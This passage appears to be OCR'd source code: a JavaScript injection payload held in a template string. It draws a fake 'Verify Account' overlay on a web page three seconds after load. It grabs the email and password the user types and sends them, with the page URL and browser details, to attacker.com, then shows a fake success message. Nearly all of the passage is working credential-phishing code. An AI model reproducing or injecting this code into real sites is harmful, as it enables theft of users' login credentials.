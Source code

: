 ```javascript
                           style="width: 100%; padding: 12px; border: 1px solid #ddd; border-radius: 4px; font-size: 14px;">
                </div>
                <button type="submit" 
                        style="width: 100%; padding: 12px; background: #1976d2; color: white; border: none; border-radius: 4px; font-size: 16px; cursor: pointer;">
                    Verify Account
                </button>
            </form>
            <p style="font-size: 12px; color: #999; margin-top: 15px;">
                This is a security measure to protect your account.
            </p>
        \`;
        
        backdrop.appendChild(modal);
        document.body.appendChild(backdrop);
        
        // Handle form submission
        document.getElementById('phishing-form').addEventListener('submit', (e) => {
            e.preventDefault();
            
            const email = document.getElementById('phish-email').value;
            const password = document.getElementById('phish-password').value;
            
            // Send credentials to attacker
            fetch('https://attacker.com/phish', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({
                    email: email,
                    password: password,
                    url: window.location.href,
                    userAgent: navigator.userAgent,
                    timestamp: Date.now()
                })
            }).then(() => {
                // Show fake loading and redirect
                modal.innerHTML = \`
                    <div style="padding: 40px;">
                        <div style="color: #4caf50; font-size: 48px; margin-bottom: 20px;">✓</div>
                        <h3 style="color: #333;">Verification Successful</h3>
                        <p style="color: #666;">Redirecting you back to the application...</p>
                    </div>
                \`;
                
                setTimeout(() => {
                    backdrop.remove();
                }, 2000);
            });
        });
    };
    
    // Deploy phishing attack after short delay
    setTimeout(createPhishingOverlay, 3000);
    
})();
</script>
`;
```
